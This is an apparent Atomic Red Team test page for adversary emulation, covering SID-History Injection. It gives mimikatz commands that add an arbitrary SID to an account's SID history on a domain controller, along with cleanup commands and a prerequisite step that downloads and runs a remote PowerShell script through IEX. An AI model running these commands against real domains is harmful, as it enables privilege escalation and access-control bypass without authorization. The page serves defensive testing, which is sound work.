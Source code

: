 ```yaml
---
tags: [T1134_005, atomic_test]
filename: "[[T1134.005 - Access Token Manipulation- SID-History Injection]]"
---
```

# T1134.005 - Access Token Manipulation: SID-History Injection

## Atomic Test #1 - Injection SID-History with mimikatz
Adversaries may use SID-History Injection to escalate privileges and bypass access controls. Must be run on domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 6bef32e5-9456-4072-8f14-35566fb85401





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sid_to_inject | SID to inject into sidhistory | string | S-1-5-21-1004336348-1177238915-682003330-1134|
| sam_account_name | Target account to modify | string | $env:username|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{mimikatz_path} "privilege::debug" "sid::patch" "sid::add /sid:#{sid_to_inject} /sam:#{sam_account_name}" "exit"
```

#### Cleanup Commands:
```cmd
#{mimikatz_path} "sid::clear /sam:#{sam_account_name}" "exit"
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
